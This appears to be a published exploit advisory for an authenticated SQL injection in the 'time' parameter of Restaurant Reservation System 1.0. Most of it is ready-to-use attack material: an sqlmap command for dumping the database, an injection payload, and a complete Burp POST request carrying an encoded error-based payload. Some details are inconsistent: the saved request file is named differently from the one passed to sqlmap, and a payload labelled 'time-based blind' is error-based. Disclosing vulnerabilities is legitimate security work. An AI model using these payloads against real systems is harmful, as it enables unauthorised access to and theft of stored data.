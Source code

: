 # Restaurant Reservation System 1.0 - 'time' SQL Injection (Authenticated)

1. Description:
----------------------

Restaurant Reservation System 1.0 allows SQL Injection via parameter 'time' in
/Restaurant-Reservation/includes/reservation.inc.php. Exploiting this issue could allow an attacker to compromise
the application, access or modify data, or exploit latent vulnerabilities
in the underlying database.


2. Proof of Concept:
----------------------

In Burpsuite intercept the request from the affected page with
'time' parameter and save it like re.req. Then run SQLmap to extract the
data from the database:

sqlmap -r poc.txt --dbms=mysql


3. Example payload:
----------------------

(time-based blind)

time=test' AND (SELECT 2640 FROM(SELECT COUNT(*),CONCAT(0x7162787171,(SELECT (ELT(2640=2640,1))),0x71786a7a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- OYfG&lname=Test&fname=Test&date=01/01/2011&reserv-submit=3&tele=5234534558&comments=3&num_guests=1

4. Burpsuite request:
----------------------

POST /Restaurant-Reservation/includes/reservation.inc.php HTTP/1.1<br>
Host: localhost<br>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8<br>
Accept-Encoding: gzip, deflate<br>
Accept-Language: en-us,en;q=0.5<br>
Cache-Control: no-cache<br>
Content-Length: 392<br>
Content-Type: application/x-www-form-urlencoded<br>
Cookie: PHPSESSID=gtouicsq43toq6jhs0tcs7ecq2<br>
Referer: http://localhost/Restaurant-Reservation/reservation.php<br>
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/79.0.3945.0 Safari/537.36<br>
<br>
time=-1%27+and+6%3d3+or+1%3d1%2b(SELECT+1+and+ROW(1%2c1)%3e(SELECT+COUNT(*)%2cCONCAT(CHAR(95)%2cCHAR(33)%2cCHAR(64)%2cCHAR(52)%2cCHAR(100)%2cCHAR(105)%2cCHAR(108)%2cCHAR(101)%2cCHAR(109)%2cCHAR(109)%2cCHAR(97)%2c0x3a%2cFLOOR(RAND(0)*2))x+FROM+INFORMATION_SCHEMA.COLLATIONS+GROUP+BY+x)a)%2b%27&lname=Test&fname=Test&date=01%2f01%2f2011&reserv-submit=3&tele=5234534558&comments=3&num_guests=1
